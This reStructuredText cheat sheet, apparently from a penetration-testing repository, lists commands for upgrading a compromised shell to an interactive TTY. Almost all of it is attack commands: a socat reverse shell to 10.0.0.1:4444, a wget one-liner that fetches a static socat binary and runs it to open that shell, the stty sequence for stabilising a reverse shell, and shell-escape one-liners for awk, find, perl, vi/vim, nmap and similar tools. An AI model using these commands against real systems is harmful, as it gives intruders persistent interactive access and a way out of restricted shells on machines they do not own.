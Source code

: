 ===========
Gaining TTY
===========

Check to see if we have a TTY:

.. code-block:: bash

    if [ -t 1 ] ; then echo terminal; else echo "not a terminal"; fi

Python
------

.. code-block:: none

    python -c 'import pty; pty.spawn("/bin/sh")'
    python -c 'import pty; pty.spawn("/bin/bash")'

socat
-----

Run listener on local machine:

.. code-block:: none

    socat file:`tty`,raw,echo=0 tcp-listen:4444

Run on remote machine:

.. code-block:: none

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

If socat isn't installed, you can try and download a static binary and run that:

.. code-block:: none

    wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444

netcat "magic"
--------------

.. code-block:: bash

    # In reverse shell
    python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z

    # In Kali
    echo $TERM # note this value
    stty -a # note values
    stty raw -echo; fg

    # In reverse shell
    reset
    export SHELL=bash
    export TERM=xterm-256color # value from before
    stty rows <num> columns <cols> # values from before

sh
--

.. code-block:: none

    /bin/sh -i

awk
---

.. code-block:: none

    awk 'BEGIN {system("/bin/bash")}'

find
----

.. code-block:: none

    find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;

Perl
----

.. code-block:: none

    perl -e 'exec "/bin/sh";'

    OR

    perl: exec "/bin/sh";

Ruby
----

.. code-block:: none

    ruby: exec "/bin/sh"

vi / vim
--------

.. code-block:: none

    vi --not-a-term -c '!sh'

.. code-block:: none

    vim --not-a-term --cmd '!sh' --cmd ':q!'

If --cmd is not enabled, first create a file with the following contents:

.. code-block:: none

    :set shell=/bin/bash
    :shell

Now execute the following:

.. code-block:: none

    vi -s <file>

    OR

    vim -s <file>

Lua
---

.. code-block:: none

    lua: os.execute('/bin/sh')

From within IRB
---------------

.. code-block:: none

    exec "/bin/sh"

From within vi / vim
--------------------

.. code-block:: none

    :!bash

    OR

    :set shell=/bin/bash:shell

From within nmap
----------------

.. code-block:: none

    !sh

echo
----

Note: This may be limited to LShell, a limited shell implemented in Python.

.. code-block:: none

    echo os.system('/bin/bash')

Resources
---------

https://netsec.ws/?p=337
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
